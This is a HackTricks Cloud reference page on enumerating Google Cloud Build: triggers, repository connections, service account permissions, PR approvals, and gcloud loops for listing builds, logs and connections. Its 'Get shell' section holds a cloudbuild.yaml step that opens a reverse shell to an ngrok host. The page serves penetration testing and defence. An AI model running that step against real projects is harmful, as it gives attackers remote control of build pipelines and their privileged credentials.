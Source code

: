 # GCP - Cloud Build Enum

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

Google Cloud Build is a managed CI/CD platform that **automates software build** and release processes, integrating with **source code repositories** and supporting a wide range of programming languages. It **allows developers to build, test, and deploy code automatically** while providing flexibility to customize build steps and workflows.

Each Cloud Build Trigger is **related to a Cloud Repository or directly connected with an external repository** (Github, Bitbucket and Gitlab).

{% hint style="success" %}
I couldn't see any way to steal the Github/Bitbucket token from here or from Cloud Repositories because when the repo is downloaded it's accessed via a [https://source.cloud.google.com/](https://source.cloud.google.com/) URL and Github is not accessed by the client.
{% endhint %}

### Events

The Cloud Build can be triggered if:

* **Push to a branch**: Specify the branch
* **Push a new tag**: Specify the tag
* P**ull request**: Specify the branch that receives the PR
* **Manual Invocation**
* **Pub/Sub message:** Specify the topic
* **Webhook event**: Will expose a HTTPS URL and the request must be authenticated with a secret

### Execution

There are 3 options:

* A yaml/json **specifying the commands** to execute. Usually: `/cloudbuild.yaml`
  * Only one that can be specified “inline” in the web console and in the cli
  * Most common option
  * Relevant for unauthenticated access
* A **Dockerfile** to build
* A **Buildpack** to build

### SA Permissions

The **Service Account has the `cloud-platform` scope**, so it can **use all the privileges.** If **no SA is specified** (like when doing submit) the **default SA** `<proj-number>@cloudbuild.gserviceaccount.com` will be **used.**

By default no permissions are given but it's fairly easy to give it some:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Approvals

It's possible to config a Cloud Build to **require approvals for build executions** (disabled by default).

### PR Approvals

When the trigger is PR because **anyone can perform PRs to public repositories** it would be very dangerous to just **allow the execution of the trigger with any PR**. Therefore, by default, the execution will only be **automatic for owners and collaborators**, and in order to execute the trigger with other users PRs an owner or collaborator must comment `/gcbrun`.

<figure><img src="../../../.gitbook/assets/image (339).png" alt="" width="563"><figcaption></figcaption></figure>

### Connections & Repositories

Connections can be created over:

* **GitHub:** It will show an OAuth prompt asking for permissions to **get a Github token** that will be stored inside the **Secret Manager.**
* **GitHub Enterprise:** It will ask to install a **GithubApp**. An **authentication token** from your GitHub Enterprise host will be created and stored in this project as a S**ecret Manager** secret.
* **GitLab / Enterprise:** You need to **provide the API access token and the Read API access toke**n which will stored in the **Secret Manager.**

Once a connection is generated, you can use it to **link repositories that the Github account has access** to.

This option is available through the button:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Note that repositories connected with this method are **only available in Triggers using 2nd generation.**
{% endhint %}

### Connect a Repository

This is not the same as a **`connection`**. This allows **different** ways to get **access to a Github or Bitbucket** repository but **doesn't generate a connection object, but it does generate a repository object (of 1st generation).**

This option is available through the button:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### Storage

Sometimes Cloud Build will **generate a new storage to store the files for the trigger**. This happens for example in the example that GCP offers with:

```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
  cd cloud-console-sample-build && \
  gcloud builds submit --config cloudbuild.yaml --region=global
```

A Storage bucket called [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) is created to store a `.tgz` with the files to be used.

### Get shell

```yaml
steps:
  - name: bash
    script: |
      #!/usr/bin/env bash
      bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
  logging: CLOUD_LOGGING_ONLY
```

Install gcloud inside cloud build:

```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud 
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```

### Enumeration

You could find **sensitive info in build configs and logs**.

```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
    echo "Listing build connections in region: $region"
    connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
    if [[ ${#connections[@]} -eq 0 ]]; then
        echo "No connections found in region $region."
    else
        for connection in $connections; do
            echo "Describing connection $connection in region $region"
            gcloud builds connections describe "$connection" --region="$region"
            echo "-----------------------------------------"
        done
    fi
    echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
    echo "Listing build worker-pools in region: $region"
    gcloud builds worker-pools list --region="$region"
    echo "-----------------------------------------"
done
```

### Privilege Escalation

{% content-ref url="../gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Unauthenticated Access

{% content-ref url="../gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post Exploitation

{% content-ref url="../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
